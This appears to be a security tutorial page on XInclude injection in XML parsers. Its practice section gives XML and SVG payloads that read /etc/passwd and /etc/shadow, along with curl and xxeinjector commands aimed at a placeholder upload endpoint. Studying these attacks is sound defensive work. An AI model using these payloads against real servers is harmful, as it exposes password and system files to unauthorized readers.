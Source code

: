 ```yaml
---
title: Exploiting XInclude Attacks for File Access
description: Learn how to exploit XInclude in XML parsers for unauthorized file access,
  bypassing traditional XXE protections.
keywords:
- XInclude attacks
- XML parsers
- XXE exploitation
- file inclusion
- SVG XInclude
- arbitrary file read
- XML vulnerability
---
```


# XInclude Attacks

## Context

XInclude attacks exploit the XML Inclusions (XInclude) mechanism in XML parsers to read arbitrary files on a server. This approach bypasses traditional protections against XML External Entity (XXE) attacks, as XInclude does not rely on DOCTYPE declarations or entity definitions. Attackers leveraging this method can inject `<xi:include>` elements into XML documents, often gaining access to sensitive files on the server. 

A solid understanding of XML structure, parsing, and general XXE exploitation is assumed.

## Theory

### XInclude Mechanism in XML Parsers

XInclude is an XML specification designed to allow parts of an XML document to be constructed by including other XML fragments or text documents through `<xi:include>` elements. This is done without relying on entity references or a DOCTYPE declaration, which makes it a versatile attack vector for bypassing traditional XXE protections. If an XML parser processes untrusted input and includes enabled XInclude support, attackers can leverage this functionality to include and read arbitrary files from the server.

### Non-DOCTYPE XXE via XInclude

Differing from classical XXE attacks, XInclude does not require a DOCTYPE or internal DTD declaration, making it capable of bypassing filters specifically set up to block these components. The basic attack sequence involves injecting an `<xi:include>` element pointing to a desired file, such as `/etc/passwd`, and then exploiting the XML parser to process and return the contents of those files.

### File Inclusion via XInclude

In a successful attack, the injected XInclude directive causes the XML parser to include the content of a local file in the document. This results in the inclusion of sensitive data into the application's response. For an attack to succeed, the target application must use an XML parser with XInclude processing enabled and accept user-inputted XML content.

### XInclude in SVG and Other XML Formats

Formats like SVG, which are XML-based, inherently support the XInclude specification. This broadens the potential attack surface beyond traditional XML APIs, as attackers can embed `<xi:include>` elements in SVG files and other XML formats targeting systems that render or process these files, further elevating the risk associated with XML parsing.

## Practice

### Manual XInclude File Read Attack

- **Craft Payload**: Create an XML payload with `<xi:include>` referencing a file of interest.
  ```xml
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include href="file:///etc/passwd" parse="text"/>
  </root>
  ```
- **Execute Request**: Use a tool like `curl` to send this XML payload to the vulnerable application endpoint.
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @payload.xml http://target-app/upload
  ```
- **Review Response**: Check the server's response to see if file contents are included.

### Automated XInclude Discovery and Exploitation

- **Run Tool**: Use `xxeinjector` to automate the discovery and exploitation of XInclude vulnerabilities.
  ```bash
  xxeinjector --url http://target-app/upload --xinclude --file /etc/passwd
  ```
- **Analyze Output**: Validate sensitive data retrieval from tool output, such as parts of `/etc/passwd`.
  ```text
  root:x:0:0:root:/root:/bin/bash
  ...
  ```

### XInclude Attack via SVG Upload

- **Create SVG Payload**: Construct an SVG file embedding XInclude for sensitive file inclusion.
  ```xml
  <svg xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include href="file:///etc/shadow" parse="text"/>
  </svg>
  ```
- **Upload File**: Use the web application’s file upload interface to submit the SVG file.
- **Check Output**: Examine the rendered SVG or server response for sensitive data disclosures.

## Tools

- **xxeinjector**
- **curl**